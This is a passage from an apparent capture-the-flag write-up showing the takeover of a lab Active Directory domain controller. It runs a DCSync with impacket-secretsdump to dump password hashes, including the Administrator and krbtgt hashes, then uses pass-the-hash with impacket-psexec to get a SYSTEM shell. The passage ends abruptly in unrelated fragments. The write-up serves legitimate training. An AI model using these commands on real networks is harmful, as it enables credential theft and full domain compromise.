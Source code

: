 Then I’ll export it to my env variables.

```
hcue@pjsk:/tmp/wr » export KRB5CCNAME=/tmp/wr/ticket.ccache
```

One last thing, we need to synchronize our local time to the server, otherwise it won’t work.

```
sudo ntpdate 10.129.254.249
```

Now to perform a DCSync on the target, we can use impacket’s `secretsdump.py` script to extract all the hashes from the domain controller. We need to specify kerberos authentication and no password for this operation.

```
hcue@pjsk:/tmp/wr » impacket-secretsdump LOOKOUT-DC.LOOKOUT.local -dc-ip 10.129.254.249 -no-pass -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cb313353c5eaceb1aae589b1644737bb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ab92b60e75818bbb70ca754897aa1e37:::
LOOKOUT.local\lhuman:1104:aad3b435b51404eeaad3b435b51404ee:de9ca94a6f5ea9113d3370476e42a9cb:::
LOOKOUT.local\fhuman:1105:aad3b435b51404eeaad3b435b51404ee:1501f896cae1fd4f0bf6b9593e81dea3:::
LOOKOUT.local\shuman:1106:aad3b435b51404eeaad3b435b51404ee:f4c0320c516b4eeae0533e930beee3c3:::
LOOKOUT-DC$:1001:aad3b435b51404eeaad3b435b51404ee:440f42cdda7c8d86dedc9655e8c003d0:::
<SNIP>
```

Now with the administrator hash we can `psexec` into the machine:

```
hcue@pjsk:/tmp/wr » impacket-psexec Administrator@10.129.254.249 -hashes :cb313353c5eaceb1aae589b1644737bb     1 ↵
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.129.254.249.....
[*] Found writable share ADMIN$
[*] Uploading file HeqMQBmt.exe
[*] Opening SVCManager on 10.129.254.249.....
[*] Creating service bqIM on 10.129.254.249.....
[*] Starting service bqIM.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

And then we grab both flags :D!

#### Second Way


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname